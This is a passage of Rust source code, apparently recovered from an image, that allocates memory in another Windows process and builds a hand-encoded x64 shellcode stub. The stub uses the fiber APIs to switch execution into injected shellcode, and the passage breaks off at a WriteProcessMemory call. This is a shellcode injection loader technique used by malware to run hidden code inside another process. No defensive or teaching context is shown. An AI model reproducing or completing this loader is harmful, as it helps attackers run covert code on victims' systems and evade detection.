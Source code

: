 ```rust
    }
    
    // Allocate memory in the target process
    let base_address = VirtualAllocEx(
        process_info.hProcess,
        ptr::null_mut(),
        code.len() + 1024, // Extra space for fiber context
        MEM_RESERVE | MEM_COMMIT,
        PAGE_READWRITE,
    );
    
    if base_address.is_null() {
        let error = GetLastError();
        CloseHandle(process_info.hProcess);
        CloseHandle(process_info.hThread);
        return Err(format!("Failed to allocate memory: {}", error).into());
    }
    
    // Create fiber initialization shellcode
    // This will:
    // 1. Convert thread to fiber
    // 2. Create fiber for our shellcode
    // 3. Switch to our fiber
    // Simple x64 shellcode stub for fiber initialization
    let fiber_init_code: Vec<u8> = vec![
        // Save registers
        0x48, 0x89, 0x5C, 0x24, 0x08,           // mov [rsp+8], rbx
        0x48, 0x89, 0x6C, 0x24, 0x10,           // mov [rsp+10h], rbp
        0x48, 0x89, 0x74, 0x24, 0x18,           // mov [rsp+18h], rsi
        0x57,                                    // push rdi
        0x48, 0x83, 0xEC, 0x20,                  // sub rsp, 20h
        
        // ConvertThreadToFiber(NULL)
        0x48, 0x31, 0xC9,                        // xor rcx, rcx
        0x48, 0xB8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, ConvertThreadToFiber
        0xFF, 0xD0,                              // call rax
        0x48, 0x89, 0xC3,                        // mov rbx, rax (save main fiber)
        
        // CreateFiber(0, shellcode_addr, NULL)
        0x48, 0x31, 0xC9,                        // xor rcx, rcx
        0x48, 0xBA, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rdx, shellcode_addr
        0x4D, 0x31, 0xC0,                        // xor r8, r8
        0x48, 0xB8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, CreateFiber
        0xFF, 0xD0,                              // call rax
        0x48, 0x89, 0xC7,                        // mov rdi, rax (save shellcode fiber)
        
        // SwitchToFiber(shellcode_fiber)
        0x48, 0x89, 0xF9,                        // mov rcx, rdi
        0x48, 0xB8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, SwitchToFiber
        0xFF, 0xD0,                              // call rax
        
        // Restore registers and return
        0x48, 0x8B, 0x5C, 0x24, 0x30,           // mov rbx, [rsp+30h]
        0x48, 0x8B, 0x6C, 0x24, 0x38,           // mov rbp, [rsp+38h]
        0x48, 0x8B, 0x74, 0x24, 0x40,           // mov rsi, [rsp+40h]
        0x48, 0x83, 0xC4, 0x20,                  // add rsp, 20h
        0x5F,                                    // pop rdi
        0xC3                                     // ret
    ];
    
    // Write the fiber initialization code
    let result = WriteProcessMemory(
```
